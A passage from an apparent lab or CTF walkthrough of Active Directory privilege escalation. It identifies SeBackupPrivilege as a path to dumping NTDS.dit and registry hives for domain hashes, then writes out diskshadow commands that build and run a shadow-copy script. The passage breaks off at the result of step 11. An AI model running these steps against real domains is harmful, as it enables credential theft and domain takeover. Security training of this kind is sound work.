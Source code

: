 - **SeMachineAccountPrivilege** → User can add machines to the domain (potential escalation path in AD).
    
- **SeBackupPrivilege & SeRestorePrivilege** → Very powerful; allows dumping sensitive files like the **NTDS.dit** (Active Directory database) and SYSTEM registry hives, which can be used to extract domain hashes and escalate to Domain Admin.
    
- Other privileges are standard and less critical.
    
 At this stage, the **SeBackupPrivilege** and **SeRestorePrivilege** stand out as the most promising escalation path

## Step 10: Preparing for Backup Abuse (SeBackupPrivilege)

Since the account has **SeBackupPrivilege**, we can abuse it to create and mount a shadow copy of the system drive. This allows access to sensitive files such as `NTDS.dit` and registry hives for privilege escalation.

First, create a working directory and prepare a `diskshadow` script:

```bash
mkdir temp 
```

```bash
cd temp
```

```bash
echo "set context persistent nowriters" | out-file ./diskshadow.txt -encoding ascii
```

```bash
echo "add volume c: alias temp" | out-file ./diskshadow.txt -encoding ascii -append
```

```bash
echo "create" | out-file ./diskshadow.txt -encoding ascii -append 
```

```bash
echo "expose %temp% z:" | out-file ./diskshadow.txt -encoding ascii -append
```

**Result:**  
A file `diskshadow.txt` is created with the following contents:

```output
set context persistent nowriters
add volume c: alias temp
create
expose %temp% z:
```

## Step 11: Executing Diskshadow Script

Run `diskshadow` with the prepared script:

```bash
diskshadow.exe /s C:\Users\Caroline.Robinson\temp\diskshadow.txt
```
**Result:**
